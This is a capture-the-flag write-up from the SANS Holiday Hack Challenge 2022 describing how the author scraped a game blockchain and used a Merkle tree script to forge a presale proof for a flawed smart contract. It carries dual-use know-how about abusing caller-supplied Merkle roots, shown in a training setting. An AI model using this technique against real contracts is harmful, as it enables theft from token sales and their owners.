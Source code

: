 # SANS Holiday Hack Challenge 2022 - KringleCon V: Golden Rings
## Recover the Cloud Ring
### Exploit a Smart Contract
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Exploit flaws in a smart contract to buy yourself a Bored Sporc NFT. Find hints for this objective hidden throughout the tunnels.

#### Solution
I had no clue where to start, so I started by downloading the blockchain’s content thinking that maybe I could copy from someone who already made it. I wrote the following script ([downloader.py](downloader.py)) to download from the blockchain:
```python
import requests
import os

breaker = False
blocknumber = 0
while not breaker:
	response = requests.post("https://prod-blockbrowser.kringle.co.in/cgi-bin/blockdata", json={"blocknumber": blocknumber})
	if "Invalid block number" in response.text:
		breaker = True
	else:
		with open("blocks/{}".format(blocknumber), 'w') as file:
			file.write(response.text)
		print ("Block #{} wrote {} on file".format(blocknumber, len(response.text)))
		blocknumber += 1
```
Knowing I would have to send money to the address `0xe8fC6f6a76BE243122E3d01A1c544F87f1264d3a`, I searched for it and found block #117 where `0xa1861E96DeF10987E1793c8f77E811032069f8E9` made a transaction with comment `Pre-sale purchase of a BSRS NFT.`. Looking for other blocks related to that address I also found block #118 where the following call was made to the function `presale_mint`:
```solidity
function: presale_mint(address,bytes32,bytes32[])
parameters: {'to': '0xa1861E96DeF10987E1793c8f77E811032069f8E9', '_root': b'\xc4t\x1e\x81\x06[\xff\x02v.\xd3\xce\x06ncY\xc1\xf4ae\x18\xe06\x99\xc8\x882\xef\x84\x91p\x14', '_proof': [b'S\x80\xc7\xb7\xae\x81\xa5\x8e\xb9\x8d\x9cx\xdeJ\x1f\xd7\xfd\x955\xfc\x95>\xd2\xbe`-\xaa\xa4\x17g1*']}
```
Back to square one, I had no clue what that meant but I knew I would have found something in the talks and there it is: [You Can Still Have Fun With Non-Fungible Tokens from Prof Qwerty Petabyte!](https://www.youtube.com/watch?v=Qt_RWBq63S8). At the end the Prof says he’s going to make some code available on github. Didn’t take long to find the [QPetabyte/Merkle_Trees](https://github.com/QPetabyte/Merkle_Trees) github repository. Downloaded, just modified the dummy address with mine, maybe added a `print`, and run the code:
```bash
thedead@dellian:~$ python3 merkle_tree.py 
Wallet: 0x4a831cfc7fD1A983b4AF04CfbF5da984bD6f7E7E
Root: 0x38dc3516d6143d1f1c93bb77c231559f4f72fc5e0c887a3db9d9d4ba78bcc235
Proof: ['0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a']
```


---

### Mistakes were made... the key
### The Burning Ring of Fire
## [Narrative](/README.md#narrative)
## [Conclusions](/README.md#conclusions)
### [The Victors shop](/README.md#the-victors-shop)
### [Inbox (1)](/README.md#inbox-1)
---
## [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
## KringleCon Orientation
## Recover the Tolkien Ring